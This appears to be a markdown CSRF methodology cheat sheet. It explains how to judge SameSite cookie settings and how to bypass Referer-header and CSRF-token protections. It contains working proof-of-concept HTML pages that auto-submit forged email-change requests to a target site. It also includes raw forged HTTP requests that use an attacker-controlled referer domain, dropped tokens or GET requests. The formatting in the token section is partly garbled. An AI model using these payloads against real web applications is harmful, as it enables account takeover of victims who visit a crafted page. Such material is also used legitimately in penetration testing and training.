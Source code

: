 ## CSRF Methodology
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
#### `SameSite=Strict` - CSRF Not Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=strict;
```

#### `SameSite=LAX` - CSRF Only Possible on GET Request

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=lax;
```

#### `SameSite=NONE` - CSRF Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=none;
```

**Step 2**<br/>
Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the Referer header based CSRF protection.

1) *Referer Header Removed*<br/>
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. We can strip the referer using the following META tag.

```html
<meta name="referrer" content="never">
```

*PoC*
```html
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2) *Referer Header Broken Regex*<br/>
Some websites will use regex to check if the website is contained in the referer. This regex could be broken. 

You can try sending the referer with the target website being a subdomain to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://target.shelled.io/change-email

email=hacked@gmail.com
```

You can try sending the referer with the target website being a query parameter to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://shelled.io/change-email?target.com

email=hacked@gmail.com
```

> Note: There is a default browser security mechanism that strips query parameters from the referer header. You can override this behavior by making sure that the response containing your exploit has the Referrer-Policy: unsafe-url header set.

*PoC*
```html
<html>
    <body>
        <meta name="referrer-policy" content="unsafe-url">
        <script>
            history.pushState("", "", "/?target.com")
        </script>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
<br/>

**Step 3**<br/>
If the session cookie’s SameSite value is set to none and the referer header is not being used for CSRF protection, then there is probably a CSRF token in place. The following are common CSRF token bypasses.

Request Method
Sometimes the CSRF token is only being validated in a POST request, you should also try to send the request as a GET request.

GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
Remove CSRF Token
Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net~~&csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY~~
CSRF Token Pool
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

1. Capture a CSRF attack POST request
2. Send request to repeater
3. Drop the request (dropping the request means the CSRF token will not be used, meaning the token is still in the CSRF token pool)
4. Create a CSRF PoC
5. Use the CSRF token in the repeater tab in the CSRF PoC







